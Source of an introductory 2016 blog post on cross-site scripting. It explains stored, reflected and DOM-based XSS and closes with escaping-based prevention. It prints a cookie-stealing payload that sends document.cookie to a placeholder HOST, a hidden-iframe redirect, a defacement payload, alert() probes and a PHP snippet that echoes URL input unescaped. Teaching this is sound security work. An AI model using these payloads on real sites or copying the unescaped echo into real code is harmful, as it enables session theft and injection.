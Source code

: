 ```yaml
---
layout:     post
title:      "Cross Site Scripting"
subtitle:   "Introduction to XSS"
date:       2016-08-25 6:00:00
author:     "W3ndige"
header-img: "img/cross-site-scripting-header.jpg"
permalink: /:title/
category: "Web Security"
---
```

<h1>What is XSS?</h1>
<p>Cross Site Scripting (XSS) is a name of one of the most common vulnerability in web applications. It's third in the list of the newest <a href="https://www.owasp.org/index.php/Top10">OWASP Top Ten</a> document so it's essential to know how it works. </p>
<p>Browsers diplay the content of a website using a mix of HTML (HyperText Markup Language which is a core of a webpage) and JavaScript responsible for making things run in response of events (like clicking a button). Of course there are other essential elements like CSS to style the webpage but in order to perform a XSS attack we will only need HTML and Javascript. </p>
<p>Essence of XSS attack is to inject some malicous code (for example Javascript or other scripting language that can be opened in a browser) into the browser of client using vulnerable web application. That way, an attacker has an ability to execute any malicious code in victim's browser. </p>
<p>But why is it so powerul? Let's consider this example: You're running some simple WordPress website with small audience. As you don't want spammers to make comments under your posts, you enable the option to only publish comments allowed by yourself. In the meantime some malicous hacker wanted to destroy your webpage (who knows why but there are still people like that). He firstly tests if you really have to allow comments, and then injects into the comment box malicious JavaScript code that will steal cookies and send them to him. Now as you've got a notification that someone published a new comment, you open the WordPress admin page to see what someone has written. In the moment you view this comment, this malicous code steals your admin cookie and sends it to the attacker. Few hours later your site has been pawned. </p>
<p>Powefull, right? But enough story time for today, let's jump into some technical details. </p>








<h1>Potential results of XSS attack</h1>
<ul>
<li><b>Stealing session cookies</b>
<p>With that attacker is being able to steal someone's logged session - like in the story.</p>
{% highlight html %}
<svg onload=fetch(‘//HOST/?cookie=’+document.cookie)>
{% endhighlight %}
</li>
<li><b>Substituting a content of a website</b>
<p>Users can be tricked into thinking that "Your site have been hacked".</p>
{% highlight html %}
<svg onload=”document.body.innerHTML='<img src=//HOST/IMAGE>'”>
{% endhighlight %}
</li>
<li><b>Capture the keys pressed by the user</b>
<p>Ability to log what someone is writing... I don't have to say why it's useful ;)</p>

</li>
<li><b>Crash the browser</b>
<p>Local Denial Of Service Attack. Mostly frustrating.</p>
</li>
<li>
<b>Redirect user’s browser to another website</b>
<p>Attacker can redirect the browser to another webpage that may be prepared with some customized malware ready to attack victims operating system. </p>
{% highlight html %}
<iframe src=//HOST/ style=display:none></iframe>
{% endhighlight %}
</li>
<li>
<b>Creating fake HTML form</b>
<p>Where an attacker would be able to trick user into entering their credentials and form would send them to an attacker. </p>
</li>
</ul>

<h1>Types of XSS attacks</h1>
<p><b>Persistent (stored) XSS</b> - This type of attack relies on the fact that webpage may store some input, or file in a database. Just like in our story, comments were stored in the WordPress database. It consists of injecting the javascript code into the server side. That's why it's called stored. Every user that sees this stored content is a potential victim. </p>
<p><b>Reflected XSS</b> - When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. Victim usually unwittingly opens a link with some JavaScript code which is sent to the web application. Then this application sends back (that's why reflected) whatever the victim asked for with this JavaScript code resulting in executing it in the browser. </p>
<p>Let's take a look at this simple PHP code: </p>
{% highlight php %}
$username = $_GET[‘user’];
echo “<h1>Welcome, ” . $username . “!</h1>”;
{% endhighlight %}
<p>Which would take an username from the URL just like that: </p>
{% highlight html %}
http://example.com/welcome.php?user=Mike
{% endhighlight %}
<p>If you open the web and view the source code it would look like this</p>
{% highlight html %}
<h1>Hello, John!</h1>
{% endhighlight %}
<p>But what if we swap the name with some JavaScript code? </p>
{% highlight html %}
http://example.com/welcome.php?user=<script>alert("XSS")</script>
{% endhighlight %}
<p>After checking the source code of the same webpage opened with this URL, you would notice that the alert box with "XSS" text was triggered.   </p>
{% highlight html %}
<h1>Hello, <script>alert("XSS")</script>!</h1>
{% endhighlight %}
<p>Now with that knowledge you can enter some more malicous code. Reflected XSS attack ready ;)</p>

<p><b>DOM Based XSS</b> is an attack where the malicious code is executed as a result of modyfing DOM (Document Object Model). It's rarest type of XSS attack. Read more at <a href="https://www.owasp.org/index.php/DOM_Based_XSS">OWASP</a>.</p>

<h1>XSS Examples</h1>
<p><b>1. With script tag</b></p>
{% highlight html %}
<script>alert("XSS")</script>
{% endhighlight %}
<p><b>2. With body tag</b></p>
{% highlight html %}
<p><body onload=alert("XSS")></p>
{% endhighlight %}
<p><b>3. With img tag</b></p>
{% highlight html %}
<p><img src="blabla" onerror="alert("XSS")></img></p>
{% endhighlight %}
<p><b>4. Or any other tag</b></p>
{% highlight html %}
<svg onload=alert("XSS")>
{% endhighlight %}
{% highlight html %}
<x onmouseover=alert("XSS")>
{% endhighlight %}
<p><b>5. Resource tag like iframe</b></p>
{% highlight html %}
<iframe src=javascript:alert("XSS")>
{% endhighlight %}
<p><b>6. Or object tag</b></p>
{% highlight html %}
<object data=javascript:alert("XSS")>
{% endhighlight %}
<h1>How to prevent XSS?</h1>
<p>All right, as we know how XSS attacks works, let's move on to prevention. Essential thing to do is to filter any data sent from the user before viewing them in application (like "<" and ">", tag attributes or HTML entities ). </p>
{% highlight html %}
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;     
/ --> &#x2F;
{% endhighlight %}
<p>That method will prevent most of the XSS attacks but for the most sophisticated ones it may be helpful to read <a href="https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet">XSS Prevention Sheet</a>. Another helpful thing would be prevention on the client side - like installing NoScript addition. </p>

<p>As always - thanks for reading and exploring this topic with me. Now after better understanding of XSS we can look for vulnerabilities in many different web applications. Good luck and...</p>
<p>~ Stay safe! </p>
